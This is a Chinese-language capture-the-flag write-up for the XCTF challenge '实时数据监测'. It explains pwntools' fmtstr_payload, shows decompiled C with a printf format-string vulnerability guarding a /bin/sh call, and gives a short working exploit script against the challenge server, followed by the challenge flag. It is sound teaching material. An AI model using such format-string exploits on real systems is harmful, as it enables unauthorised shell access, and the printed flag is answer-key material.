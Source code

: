 # 实时数据监测

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c17a14e0-9bc1-4370-ab33-7348e06f55f2_2)

我宣布pwntools就是神！记录一下这个好用工具的最简单用法。其实格式化字符串任意写的原理我还不是很懂，找个时间学习一下，到时候顺便写个笔记（到处挖坑）。

首先pwntools有一个[fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html)工具。看官方文档好像还可以自动pwn，但是我这个机子没法运行elf，所以还是半自动吧，已经把最难的部分帮我完成了。

- ### fmtstr_payload
  > 根据给定的参数自动生成payload，32位和64位都可以。写入地址的大小由context.bits决定。<br>
  - 语法：pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str<br>
  - 参数<br>
    > offset (int) – 格式化字符串中第一个可控制参数的偏移<br>
    > writes (dict) – 要写入地址：写入内容 的字典<br>
    > numbwritten (int) – 打印格式化字符串之前printf已经打印的字节数<br>
    > write_size (str) – 必须为byte, short 或者 int，表示你想使用hhn，hn或者n进行写入。<br>
    > overflows (int) – 为了减少格式化字符串所可以接受的额外溢出。此参数是格式化字符串长度与输出数量的交换。越大的值所生成的payload越短，同时运行时的输出越多。<br>
    > strategy (str) – fast或者small。small为默认，fast可以使用在有多处写入的地方<br>
   - 返回值：根据参数得出的payload。

个人渣翻，有些还没看懂。main函数很简单，内部调用了locker，这才是关键点。

```c
void locker(void)
{
  char local_20c [520];
  fgets(local_20c,512,stdin);
  imagemagic(local_20c);
  if (key == 0x2223322) {
    system("/bin/sh");
  }
  else {
    printf(&DAT_080485d8,&key,key);
  }
  return;
}
```

如果key的值等于0x2223322就可以得到shell。imagemagic就是个格式化字符串漏洞。

```c
void imagemagic(char *param_1)
{
  printf(param_1);
  return;
}
```

查看key的地址为0x0804a048。checksec的结果为保护全没开。现在就很简单了。

```python
from pwn import *
proc=remote('61.147.171.105',65082)
payload=fmtstr_payload(12,{0x0804a048:0x02223322})
proc.sendline(payload)
proc.interactive()
```

- ### Flag
    > cyberpeace{20c648141e5e28319d890841074e93fc}